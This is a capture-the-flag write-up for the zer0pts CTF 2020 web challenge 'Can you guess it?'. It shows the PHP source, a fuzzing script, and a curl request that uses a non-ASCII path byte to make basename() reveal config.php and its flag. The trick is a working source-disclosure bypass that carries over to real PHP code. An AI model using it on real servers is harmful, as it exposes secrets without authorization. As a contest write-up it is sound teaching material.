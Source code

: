 # [zer0pts CTF 2020] Can you guess it?
###### tags: `zer0pts CTF`, `zer0pts CTF 2020`, `web`

## Solution
We're given the source code (`index.php`) and `Dockerfile`. As you can see from `index.php`, you can get the flag if you can guess `bin2hex(random_bytes(64))` or get `config.php`.

```php=
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

Of course guessing `random_bytes(64)` is not realistic, so the goal is to read `config.php`. Also, bypassing `hash_equals` is impossible because if one of parameters is not string, `hash_equals` returns `FALSE`, so if you post `guess[]=test`, this app shows `Wrong`.

The remaining suspicious part is `highlight_file(basename($_SERVER['PHP_SELF']));`, which prints the source code itself. [`basename`](https://www.php.net/manual/en/function.basename.php) is a function that returns filename of given path, and [`$_SERVER['PHP_SELF']`](https://www.php.net/manual/en/reserved.variables.server.php) is a path of currently executing script.

But why this app checks if `$_SERVER['PHP_SELF']` ends with `config.php`? This is because if you access `/index.php/config.php`, `$_SERVER['PHP_SELF']` is `/index.php/config.php`. So, if there is no check, the server shows the content of `config.php`.

So, we need to bypass the check. Let's see the document of [`basename`](https://www.php.net/manual/en/function.basename.php) again.

> **Caution**
> `basename()` is locale aware, so for it to see the correct basename with multibyte character paths, the matching locale must be set using the `setlocale()` function.

What does it mean? Let's reproduce the environment with given `Dockerfile` and 
fuzz.

```
$ docker run --rm -it php:7.3-apache bash
︙
root@a06cc21f03e1:/tmp# apt install -y libicu-dev
root@a06cc21f03e1:/tmp# docker-php-ext-install intl
root@a06cc21f03e1:/tmp# cat test.php
<?php
function check($str) {
  return preg_match('/config\.php\/*$/i', $str);
}

for ($i = 0; $i < 0x100; $i++) {
  $s = '/index.php/config.php/' . IntlChar::chr($i);
  if (!check($s)) {
    $t = basename('/index.php/config.php/' . chr($i));
    echo "${i}: ${t}\n";
  }
}
root@a06cc21f03e1:/tmp# php test.php
︙
120: x
121: y
122: z
123: {
124: |
125: }
126: ~
127: ^?
128: config.php
129: config.php
130: config.php
131: config.php
132: config.php
︙
```

Wow, if `/(character out of ASCII range)` is appended, `basename` returns `config.php`.

Finally, you can get the flag by accessing `http://3.112.201.75:8003/index.php/config.php/%80?source`.

```
$ curl http://3.112.201.75:8003/index.php/config.php/%80?source
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />define</span><span style="color: #007700">(</span><span style="color: #DD0000">'FLAG'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">'zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}'</span><span style="color: #007700">);</span>
</span>
</code>
```